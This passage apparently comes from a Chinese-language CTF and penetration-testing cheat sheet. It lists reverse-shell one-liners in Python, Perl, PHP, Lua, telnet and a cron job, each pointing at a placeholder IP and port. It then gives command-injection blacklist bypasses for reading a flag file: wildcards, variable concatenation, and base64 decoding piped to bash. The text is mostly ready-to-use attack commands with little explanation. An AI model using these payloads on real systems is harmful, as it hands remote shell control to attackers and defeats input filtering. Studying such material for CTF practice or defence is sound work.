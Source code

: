 ```cobol
  python -c "exec(\"import socket, subprocess;s = socket.socket();s.connect(('ip',port))\nwhile 1:  proc = subprocess.Popen(s.recv(1024), shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE);s.send(proc.stdout.read()+proc.stderr.read())\")"   
```

Perl方式

```swift
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'   
```

php方式

```swift
php -r '$sock=fsockopen("ip",port);exec("/bin/sh -i <&3 >&3 2>&3");'   
```

lua方式

```cobol
lua -e "require('socket');require('os');t=socket.tcp();t:connect('ip','port');os.execute('/bin/sh -i <&3 >&3 2>&3');"#需要lua socket支持，且lua5.2+不支持luasocket  
```

crontab方式

```cobol
crontab -e编辑当前用户的任务，或者是写到计划任务目录，一般是 /var/spool/cron/ 目录，ubuntu是/var/spool/cron/crontabs。文件名为用户名root等。下面命令含义是每一分钟执行一次反弹shell命令。
```

SHELL=/bin/bash

- /bin/bash -i >& /dev/tcp/ip/port 0>&1

telnet方式

```cobol
mknod backpipe p && telnet ip port 0<backpipe | /bin/bash 1>backpipe
```

###### [字符串匹配](https://so.csdn.net/so/search?q=%E5%AD%97%E7%AC%A6%E4%B8%B2%E5%8C%B9%E9%85%8D&spm=1001.2101.3001.7020)

环境和上面一样，传入的c会被eval执行，要求读取到flag.php的内容，这个就是利用grep进行字符串匹配，绕过姿势如下

```perl
c=system("cat fl*g.php | grep  -E 'fl.g' ");
```

具体来说，它会使用系统的 “**cat**” 命令来输出文件名以 “fl” 开头且以 “g.php” 结尾的文件内容，并使用 “grep” 命令过滤掉不包含 “fl.g” 的行。最后，这个命令的输出会被赋值给变量 $c。
###### 1、拼接绕过  
比如：`a=l;b=s;$a$b`  
上面的第二道题目也是利用偶读拼接方法绕过黑名单：`a=fl;b=ag;cat $a$b`
###### 2、编码绕过
**base64：**
```
 `echo MTIzCg==|base64 -d` 其将会打印123  
 `echo "Y2F0IC9mbGFn"|base64-d|bash` ==>`cat /flag`
```
**hex：**
